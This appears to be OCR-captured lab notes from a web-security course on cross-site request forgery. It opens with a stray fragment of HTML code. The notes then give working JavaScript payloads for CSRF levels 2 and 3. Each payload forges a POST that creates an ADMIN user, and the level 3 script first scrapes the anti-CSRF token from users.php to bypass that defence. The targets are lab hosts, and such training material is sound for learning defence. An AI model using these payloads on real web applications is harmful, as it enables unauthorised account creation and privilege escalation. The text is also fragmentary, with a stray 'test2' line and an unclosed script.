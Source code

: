 ```js
         startBlock(ww3, tokens.slice(666, tokens.length));
      </script>

      <div>
         <img src="counter.gif" />
      </div>
   </body>
</html>
```

## LAB CSRF

### Warm-up: CSRF level 1

warm-up 
add the user did with BURP

### Easy: CSRF level 2

```js
<script type="text/javascript">
var url = "http://2.csrf.labs/add_user.php"
var params = "name=talent&surname=joao&email=talent%40hacker.site&role=ADMIN&submit="
var csrf = new XMLHttpRequest();
csrf.open("POST", url, true);
csrf.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
csrf.send(params);
</script>
```

### Easy: CSRF level 3
```js
test2
<script type="text/javascript">
function addUser(token) {
    var url = "http://3.csrf.labs/add_user.php";
    var param = "name=Malice&surname=Smith&email=malice%40hacker.site&role=ADMIN&submit=&CSRFToken=" + token; 
    var CSRF = new XMLHttpRequest();
    CSRF.open("POST",url,true);
    CSRF.withCredentials = 'true';
    CSRF.setRequestHeader("Content-Type","application/x-www-form-urlencoded");
    CSRF.send(param);
}
// Extract the token
var XHR = new XMLHttpRequest();
XHR.onreadystatechange = function() { 
    if (XHR.readyState == 4 ) {
        var htmlSource = XHR.responseText; // the source of users.php
        // Extract the token 
        var parser = new DOMParser().parseFromString(htmlSource, "text/html");
        var token = parser.getElementById('CSRFToken').value;
        addUser(token);
    }
}
XHR.open('GET', 'http://3.csrf.labs/users.php', true);
XHR.send();
```
